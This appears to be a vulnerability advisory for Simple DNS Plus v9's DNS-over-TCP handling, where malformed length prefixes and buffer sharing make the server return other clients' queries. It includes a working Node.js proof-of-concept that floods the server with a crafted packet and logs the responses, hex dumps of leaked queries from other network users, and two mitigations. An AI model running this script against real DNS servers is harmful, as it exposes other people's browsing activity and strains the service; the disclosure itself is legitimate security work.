

# Introduction

Improper handling of DNS over TCP in Simple DNS Plus v9 allows a remote attacker with querying access to the DNS server to cause the server to return request payloads from other clients. This happens when the TCP length prefix is malformed (len ≠ actual packet len), and due to a concurrency/buffering issue, even when the lengths match. A length prefix that is smaller than the actual packet size increases information leakage. In summary, this vulnerability allows an attacker to see DNS queries of other clients’ (CWE-125 / CWE-130 / CWE-444).

# Affected components

- Product: `Simple DNS Plus` v9.1.116
- Feature: DNS over TCP
- Host device: Windows Server 2019

# Reproduction

This was done on a device running macOS 26 connected to the network with a Simple DNS resolver forced. DNS requests to other resolvers were blocked by blocking port 53 outbound.

The following script was run, and server responses were logged to a text file.

```bash
node script.js
# in another terminal
tail -f log.txt
```

```jsx
import dns from "dns/promises"
import net from "net";
import fs from "fs";
// long dummy packet - real len doesn't matter
const data = new Uint8Array([
	0x00, 0x00, 0xFC, 0x10, 0x1A, 0x8A, 0x32, 0x01, 0x86, 0x56, 0xCD, 0xF5,
	0x94, 0x87, 0x08, 0x00, 0x45, 0x00, 0x00, 0x00, 0x00, 0x5E, 0xAA, 0x40,
	0x00, 0x00, 0x40, 0x11, 0x5E, 0x3B, 0x0A, 0x78, 0x49, 0x07, 0x0A, 0x78,
	0x00, 0x20, 0x14, 0x1D, 0xC8, 0x76, 0x00, 0x35, 0x00, 0x4A, 0xAC, 0x84,
	0x83, 0xA1, 0x01, 0x00, 0x00, 0x01, 0x00, 0x30, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x24, 0x70, 0x72, 0x6F, 0x64, 0x2D, 0x74, 0x65, 0x73, 0x74,
	0x00, 0x40, 0x2D, 0x77, 0x68, 0x61, 0x74, 0x2D, 0x74, 0x68, 0x69, 0x73,
	0x2D, 0x69, 0x73, 0x2D, 0x61, 0x2D, 0x00, 0x50, 0x74, 0x65, 0x73, 0x74,
	0x2D, 0x64, 0x6F, 0x6D, 0x61, 0x69, 0x6E, 0x07, 0x65, 0x78, 0x61, 0x6D,
	0x00, 0x60, 0x70, 0x6C, 0x65, 0x03, 0x6F, 0x72, 0x67, 0x00, 0x00, 0x01,
	0x00, 0x01
]);

// tcp headers
const length = Buffer.alloc(2);
length.writeUInt16BE(data.length);
const packet = Buffer.concat([length, Buffer.from(data)]);
// returned the DHCP simple dns servers - 10.9.0.75
const dnsServers = dns.getServers()
// cross testing
for (const server of dnsServers) {
  let l = 0
  setInterval(() => {
    const socket = new net.Socket();
    socket.on('error', () => socket.destroy());
    socket.on('timeout', () => socket.destroy());
    socket.on('data', (data) => fs.promises.appendFile('log.txt', data.toString("hex") + "\n"));
    socket.connect(53, server,  () => {
     socket.write(packet);
      l++
      console.log("attempt (m) ", l);
    });
  },0);
}

```

The packet was sent 28,700 times (40 seconds), and DNS requests were logged. These requests were confirmed not to have been made from the test machine. A 2nd machine was tried with domains that are known not to exist, but due to the heavy traffic, the machine’s queries weren’t logged. The following domains were confirmed to have never been queried by the test machine.

```

cbef81800001000100000000047061706905686d68636f03636f6d0000410001c00c000500010000002800180771793467383338017808696e636170646e73036e657400
348d818000010006000000000e656e637279707465642d74626e30076773746174696303636f6d0000010001c00c000100010000000c00048efb6f66c00c000100010000000c00048efb6f8ac00c000100010000000c00048efb6f8bc00c000100010000000c00048efb6f65c00c000100010000000c00048efb6f71c00c000100010000000c00048efb6f64
eb66818000010006000000000e656e637279707465642d74626e30076773746174696303636f6d0000010001c00c000100010000000c00048efb6f66c00c000100010000000c00048efb6f8ac00c000100010000000c00048efb6f8bc00c000100010000000c00048efb6f65c00c000100010000000c00048efb6f71c00c000100010000000c00048efb6f64
b9b9818200010000000000000b6d61746368616473727672077969656c646d6f03636f6d0000010001
bd83818200010000000000000b6d61746368616473727672077969656c646d6f03636f6d0000010001
1c9181820001000000000000046d61696c06676f6f676c6503636f6d0000010001
f1a281820001000000000000046d61696c06676f6f676c6503636f6d0000010001
ce1b818000010004000000000465646765096d6963726f736f667403636f6d0000010001c00c000500010000042b002a12656467652d6d6963726f736f66742d636f6d0761782d303030320961782d6d7365646765036e657400c030000500010000002000170761782d303030320c61782d64632d6d7365646765c055c0660001000100000023000496ab1d0bc0660001000100000023000496ab1e0b
8fc781820001000000000000146f7074696d697a6174696f6e67756964652d70610a676f6f676c656170697303636f6d0000410001
b56481820001000000000000146f7074696d697a6174696f6e67756964652d70610a676f6f676c656170697303636f6d0000410001

```



These are malformed DNS queries by other machines on the network, and pcap logs confirm that the test machine did not look these queries up.

# Mitigations

- Validating packet length directly instead of relying on the header
- Make sure each connection has an individual buffer
